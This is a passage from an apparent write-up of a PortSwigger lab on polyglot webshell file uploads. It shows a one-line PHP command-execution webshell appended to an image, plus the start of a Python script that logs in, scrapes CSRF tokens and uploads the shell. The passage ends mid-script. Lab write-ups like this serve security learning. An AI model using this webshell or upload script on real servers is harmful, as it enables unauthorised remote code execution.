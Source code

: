 ```python
print(r.text)
```

## Lab 6: Polyglot Webshell

This lab really checks whether the file uploaded is an image. As such, I just created a webshell like so:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' >> sample.jpg
```

Then, I uploaded this `sample.jpg` file with a payload embedded within it, but it didn't execute.

When I changed it to `sample.php` instead, it worked. 

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-6.png)

This means that the website was indeed checking whether a valid image was uploaded, but it still allowed the execution of PHP code. 

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0ad600b0049710fd845ca4de00eb0025'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
filename = 'sample.php'
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

file = {
	'avatar':(filename, open(filename, 'rb'), "application/x-php")
}

form_data = {
	'user':'wiener',
```